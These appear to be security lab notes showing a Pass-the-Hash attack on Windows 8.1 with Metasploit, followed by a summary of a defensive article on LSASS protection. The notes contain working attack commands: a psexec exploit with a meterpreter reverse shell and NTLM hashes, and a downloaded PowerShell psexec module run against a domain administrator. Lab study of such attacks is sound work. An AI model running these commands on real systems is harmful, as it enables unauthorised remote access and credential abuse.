 ```bash
# 1.5 From Kali Linux, perform a Pass-the-Hash attack with this command, adjusting the IP addresses accordingly:
msfcli msfcli /usr/share/metasploit-framework/lib/msf/core/exploit/windows/smb/psexec PAYLOAD=windows/meterpreter/reverse_tcp LHOST=Kali_ip LPORT=443 RHOST=Windows_8.1_ip SMBUser=Admin2 SMBPass=aad3b435b51404eeaad3b435b51404ee:e19ccf75ee54e06b06a5907af13cef42 E
```

```cmd
:: 2. In a Domain
:: 2.1 Make a Server 2012 domain controller 
:: 2.2 Join Win 8.1 machine to the domain
:: 2.3 In "Network and Sharing Center", click "Change advanced sharing settings". In the Domain profile, turn on "network discovery" and "file and printer sharing"
:: 2.4 Turn off Windows Firewall for Domain profile
```

```bash
# In Kali,
cd
cd .msf4/modules
mkdir exploits
cd exploits 
mkdir windows
cd windows

mkdir powershell
cd powershell

wget https://raw.github.com/jakxx/metasploit-framework/powershell_psexec/modules/exploits/windows/powershell/powershell_psexec.rb

msfconsole

use exploit/windows/powershell/powershell_psexec
set RHOST Windows_8.1_ip
set LHOST Kali_ip 
set ARCH x86
set SMBDomain sam.com
set SMBUser Administrator
set SMBPASS 00000000000000000000000000000000:e19ccf75ee54e06b06a5907af13cef42
exploit
```

- Read then summarize the article [Security Thoughts: LSASS Protection in Windows 8.1 and Windows Server 2012 R2](https://dirteam.com/sander/2014/06/24/security-thoughts-lsass-protection-in-windows-8-1-and-windows-server-2012-r2/)
  - Domain account mitigation
    - Reduced credential footprint
    - Aggressive session expiry
    - New "protected users" RID
    - Hardened Local Security Authority Subsystem Service (LSASS) process
  - Authentication policies and silos
    - Enable isolation of users or resources
      - Keeps user in their silo
      - Prevents outside access to silo
    - 2012R2 domains support authentication policies and silos
      - Policies allow custom ticket lifetime and issuance conditions
      - Can restrict users and service accounts
